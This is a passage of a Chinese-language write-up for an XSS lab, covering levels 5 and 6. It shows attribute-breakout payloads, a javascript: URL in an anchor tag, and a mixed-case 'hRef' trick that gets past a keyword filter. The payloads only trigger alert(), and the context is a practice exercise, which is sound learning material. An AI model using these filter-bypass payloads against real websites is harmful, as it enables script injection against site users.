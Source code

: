 ```bash
"><script>alert()</script>
```

  script又被过滤了

​![image](assets/image-20240913164959-b1gu02b.png)​

payload：

```bash
"><a href=JavaScript:alert()>点我</a>
```

## level6

```bash
"><a href=JavaScript:alert()>点我</a>
```

  然后href也被过滤了

​![image](assets/image-20240913165825-cue1tvc.png)​

payload：  虽然过滤很多 但是大小写没过滤。

```bash
"><a hRef=JavaScript:alert()>点我</a>
```
